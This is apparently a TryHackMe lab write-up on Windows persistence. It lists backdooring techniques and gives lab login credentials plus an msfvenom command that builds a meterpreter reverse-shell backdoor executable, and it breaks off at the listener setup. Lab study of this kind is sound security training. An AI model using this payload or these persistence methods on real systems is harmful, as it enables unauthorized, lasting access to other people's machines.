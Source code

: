 # Persistence

## What is persistence

Persistence is a post-exploitation activity used by
penetration testers in order to keep access to a system throughout the whole
assessment and not to have to re-exploit the target even if the system restarts.

It can be considered that there are two types of persistence. These two types are:

- Low privileged persistence
- Privileged user persistence

##### Low privileged user persistence

Low privileged persistence means that the penetration tester gained and
uses persistence techniques to keep his access to the target system under
a normal user profile/account (a domain user with no administrative rights).

##### Privileged user persistence

After gaining access to a system,
sometimes (because it would be inaccurate to say always),
a penetration tester will do privilege escalation in order to gain access to
the highest privilege user that can be on a Windows machine (nt authority\system).

After privilege escalation,
he will use persistence in order to keep the access he gained.

##### Keeping persistence

Ways of keeping persistence:

- Startup folder persistence
- Editing registry keys
- Using scheduled tasks
- Using BITS
- Creating a backdoored service
- Creating another user
- Backdooring RDP

## Low privilege user persistence

First of all we need access to the machine.

We can RDP in with `tryhackme:tryhackme123`  
Then we will create a backdoor using msfvenom  
We can do that by:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe > backdoor.exe
```

Create a metasploit listener:
